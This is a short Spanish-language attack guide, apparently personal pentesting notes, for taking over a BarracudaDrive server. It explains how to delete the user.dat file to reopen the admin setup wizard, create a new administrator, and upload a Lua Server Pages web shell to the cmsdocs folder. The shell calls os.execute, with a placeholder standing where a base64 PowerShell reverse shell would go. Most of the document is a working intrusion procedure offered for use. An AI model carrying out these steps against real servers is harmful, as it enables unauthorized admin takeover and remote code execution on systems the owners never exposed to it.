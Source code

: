 # Info

Para realizar este ataque, necesitamos tener permisos de escritura en la carpeta de barracuda y sobre todos los archivos de la misma. Puede ser llamada barracudadrive o db en la carpeta C:

#### Proceso

- Podemos aprovechamos una vulnerabilidad que nos permite eliminar el archivo de configuración de los usuarios para obligar a barracuda a proporcionarnos el form de configuración del nuevo admin.
- cargamos un script en LUA con una shell reversa.
  
# ABUSO

### 1) Eliminación del user seteado

En la carpeta de la instalación eliminamos el archivo user.dat

### 2) Vamos al wizard de creación de usuario y seteamos el nuevo usuario.

    http://<dominio/ip>/Config-Wizard/wizard/SetAdmin.lsp

### 3) creamos el script en lua

El archivo tiene por extención **.lsp**

      <div style="margin-left:auto;margin-right: auto;width: 350px;">
      <div id="info">
      <h2>Lua Server Pages Reverse Shell</h2>
      <p>Delightful, isn't it?</p>
      </div>
      <?lsp if request:method() == "GET" then ?>
      <?lsp os.execute("shell base64 powershell") ?>
      <?lsp else ?>
      You sent a <?lsp=request:method()?> request
      <?lsp end ?>
      </div>

### 4) cargamos el script en la carpeta cmsdocs

    http://<ip/dominio>/fs/C/bd/cmsdocs/

### 5) Llamamos al script desde la carpeta root del servicio

    http://<ip/dominio>/shell.lsp
